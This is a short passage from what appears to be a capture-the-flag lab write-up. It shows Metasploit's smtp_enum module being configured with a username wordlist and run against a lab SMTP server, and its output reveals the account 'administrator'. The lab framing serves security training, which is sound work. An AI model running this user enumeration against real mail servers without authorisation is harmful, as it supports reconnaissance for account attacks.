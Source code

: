 7. Set the user lisit to use an other list othen than default
```shell
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
USER_FILE => /usr/share/seclists/Usernames/top-usernames-shortlist.txt

```
8. set the RHOSTS parameter as this needs to be also set
```shell
set RHOSTS 10.10.225.121
```

9. Ran the exploit and found the user name to be administrator
```shell
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 10.10.225.121:25      - 10.10.225.121:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.225.121:25      - 10.10.225.121:25 Users found: administrator
[*] 10.10.225.121:25      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
